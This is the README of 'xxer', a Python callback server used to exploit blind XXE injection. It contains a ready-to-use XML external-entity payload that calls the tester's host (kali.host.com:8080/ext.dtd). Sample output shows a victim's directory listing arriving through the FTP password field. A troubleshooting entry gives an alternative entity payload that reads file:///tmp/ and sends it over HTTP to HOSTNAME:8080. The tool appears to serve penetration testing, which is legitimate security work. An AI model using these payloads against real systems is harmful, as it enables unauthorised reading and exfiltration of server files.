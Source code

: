 # xxer
A blind XXE injection callback handler. Uses HTTP and FTP to extract information. Originally written in Ruby by [ONsec-Lab](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb). Rewritten here because I don't like Ruby.

Basically, this doesn't actually find XXE injection for you, it helps you deal with getting useful information back once you've found a vulnerable input. For actually finding vulnerable injection points, I recommend using a small HTTP payload and some sort of DNS callback service like [Burp Collaborator](https://portswigger.net/burp/help/collaborator.html). If Collaborator reports a DNS lookup, followed by an HTTP request, then you're good to go.

## Target Audience
If you can explain what XXE injection is and how to find it, this is for you. If not, check out [vulnd_xxe](https://github.com/TheTwitchy/vulnd_xxe).

## Examples

### Options
```
root@kali:~$ xxer.py -h
usage: xxer [-h] [-v] [-q] [-p HTTP] [-P FTP] -H HOSTNAME

XXE Injection Handler

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -q, --quiet           surpress extra output
  -p HTTP, --http HTTP  HTTP server port
  -P FTP, --ftp FTP     FTP server port
  -H HOSTNAME, --hostname HOSTNAME
                        Hostname of this server

Originally from https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-
server.rb, rewritten in Python by TheTwitchy
```

### Basic Usage
```
root@kali:~$ xxer.py -H kali.host.com
                 
 _ _ _ _ ___ ___ 
|_'_|_'_| -_|  _|
|_,_|_,_|___|_|  
                 
version 1.0

info: Starting xxer_httpd on port 8080
info: Starting xxer_ftpd on port 2121
info: Servers started. Use the following payload (with URL-encoding):

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://kali.host.com:8080/ext.dtd">%aaa;%ccc;%ddd;]>


127.0.0.1 - - [23/Apr/2017 20:59:04] "GET /ext.dtd HTTP/1.1" 200 -
info: FTP: recvd 'USER fakeuser'
info: FTP: recvd 'PASS aaaaaaaaaadescriptivefoldername
IRS_LETTERS_2014_ANGRY
passwords.txt
pictures_of_ex_hi_def
pictures_of_ex_ultra_hi_def
szechuan_sauce_recipe.pgp
TAXES2012
Taxes2013
TAXES2015
Temporary Internet Files
'
info: FTP: recvd 'TYPE I'
info: FTP: recvd 'EPSV ALL'
info: FTP: recvd 'EPSV'
info: FTP: recvd 'RETR b'
```

## "Features"
  * Only has one exfiltration point (currently, the FTP password). Obviously this can be changed up as needed, but may require some basic code changes (specifically in the FTP handlers).
  * Install via ``pip``. Needs at least a requirements.txt or a setup.py. For now just clone and run.
  * Currently serves up everything in the folder in which it was run over HTTP. Probably not a huge security risk, but something you should be aware of, espeially on a public server.
  * Integrated server file/directory browsing as a future upgrade?

## Troubleshooting
  * I don't get a callback over HTTP to retrieve ``ext.dtd``.
    * This could mean a number of things, mostly related to not being vulnerable to XXE:
      * External entities may be disallowed. This can be done by rejecting DOCTYPE decclarations in documents, which I believe prevents XXE injection.
      * It may also allow entities, but disallow entities from remote sources. I've seen this on some Python XML libraries.
      * Outbound traffic could be blocked at a firewall, or requests mat only go to whitelisted hosts.
    * There could also be a typo in the payload or a bug. Check the generated ``ext.dtd`` file to make sure everything looks correct. 
    * If you get some sort of parsing error, make sure you apply URL encoding (or remove it, I dunno) to the payload. Basically make sure you have the "correct" amount of encoding.
  * The initial HTTP callback for ext.dtd works, but after that I see nothing.
    * This could mean that FTP as a protocol is disabled server-side. Try changing the FTP callback in ``ext.dtd`` to an HTTP one, like ``<!ENTITY % bbb SYSTEM "file:///tmp/"><!ENTITY % ccc "<!ENTITY &#37; ddd SYSTEM 'http://HOSTNAME:8080/b'>">``. If you get a callback to the /b document, this is probably the case. Try using the gopher protocol as well, but this was removed in Java 1.6.32 (or something close).
